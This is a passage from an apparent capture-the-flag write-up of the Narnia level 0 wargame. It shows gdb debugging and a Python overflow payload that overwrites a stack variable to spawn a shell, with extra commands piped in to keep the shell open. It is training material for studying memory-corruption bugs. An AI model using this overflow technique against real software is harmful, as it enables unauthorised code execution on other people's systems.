 Yet, nothing happens.

Let's debug it out to check what's going on in more detail:
```bash
export DIR=$(mktemp -d)
cd $DIR
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ python -c 'print("B"*20  +"\xef\xbe\xad\xde")' > input
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ cp /narnia/narnia0 .
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ cp /narnia/narnia0.c .
# compile without stack protection mechanisms
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ gcc -g narnia0.c -o narnia0gdb -fno-stack-protector -z execstack
# debug it
narnia0@narnia:/tmp/tmp.S0yOD98OVW$ gdb narnia0gdb
(gdb) b 30
Breakpoint 1 at 0x400759: file narnia0.c, line 30.
(gdb) r < input
Starting program: /tmp/tmp.S0yOD98OVW/narnia0gdb < input
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0x41414100

Breakpoint 1, main () at narnia0.c:30
30		if(val==0xdeadbeef){
(gdb) x/64x $rsp
0x7fffffffe480:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe490:	0x42424242	0xdeadbeef	0x41414100	0x00000000
0x7fffffffe4a0:	0xffffe590	0x00007fff	0x00000000	0x00000000
0x7fffffffe4b0:	0x004007c0	0x00000000	0xf7a2d830	0x00007fff
0x7fffffffe4c0:	0x00000000	0x00000000	0xffffe598	0x00007fff
0x7fffffffe4d0:	0x00000000	0x00000001	0x004006ed	0x00000000
0x7fffffffe4e0:	0x00000000	0x00000000	0x623e0e6c	0x8f1a718d
0x7fffffffe4f0:	0x00400600	0x00000000	0xffffe590	0x00007fff
0x7fffffffe500:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe510:	0xa43e0e6c	0x70e58ef2	0xc26e0e6c	0x70e59e48
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe540:	0x004006ed	0x00000000	0x00400830	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00400600	0x00000000	0xffffe590	0x00007fff
0x7fffffffe570:	0x00000000	0x00000000	0x00400629	0x00000000
```
We are 4 characters short. Let's see what happens if we append 4 additional characters.
Reason behind it is the compilation flags. Adding `-m32` does it and the code can be exploited
with the usual input:
```
(python -c 'print("B"*20  +"\xef\xbe\xad\xde")') | ./narnia0gdb32
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
```

Debugging though the code we can see that the shell is getting invoked however it goes to `return 0;`
automatically afterwards. Without getting into too difficult mechanisms, let's be a bit creative:
```bash
(python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; whoami) | ./narnia0gdb32
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found

```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ (python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; ls) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
```